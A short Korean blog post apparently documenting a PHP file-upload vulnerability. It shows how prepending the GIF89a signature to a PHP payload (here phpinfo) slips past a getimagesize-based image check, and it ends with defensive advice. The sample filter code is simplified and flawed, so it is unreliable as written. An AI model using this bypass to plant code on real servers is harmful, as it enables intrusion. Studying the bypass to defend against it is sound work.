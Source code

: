 ```yaml
---
title: [파일업로드] getimagesize Bypass
date: 2023-07-23 20:16:00 +0900
categories: [vulnerability, File upload]
tags: [php, incident, bypass, file_upload]
render_with_liquid: false
---
```


PHP 파일 업로드 취약점 기록.

getimagesize의 반환값은 배열로 반환해준다. 아래 정보를 참고 바란다.

EX 1)

    [0] => 756 // width
    [1] => 676 // height
    [2] => 3 // 이미지 타입 구분 번호
    [3] => width="756" height="676" // style
    [bits] => 8 // 비트
    [mime] => image/png // 이미지 타입

만약 jpg 사진 파일만 업로드 가능하게 한다면 아래처럼 코드를 기본적으로 작성할 수 있다.

업로드 소스코드
```php
$File = getimagesize('업로드 파일');

if($File[2] == 'jpg'){
  이미지 업로드
}
else{
  에러 코드 작성
}
```

악성파일 예시는 아래와 같다.
```php
<?php
phpinfo();
?>
```

악성 파일을 위 코드로 실행하면 소스코드에서 필터링 되어 업로드가 되지 않음.

하지만 아래처럼 GIF89a를 앞에 시그니쳐로 붙여주면 우회가 된다.

```php
GIF89a<?php
phpinfo();
?>
```

즉, 안전한 파일 업로드 소스코드를 구현하려면 PHP를 최신버전으로 구축해야하며, 업로드되는 폴더는 실행 권한을 제거해야 한다.
또한, 업로드되는 파일 이름 난수화, 텍스트 이미지화 등 다양한 방법이 존재할 수 있다. 
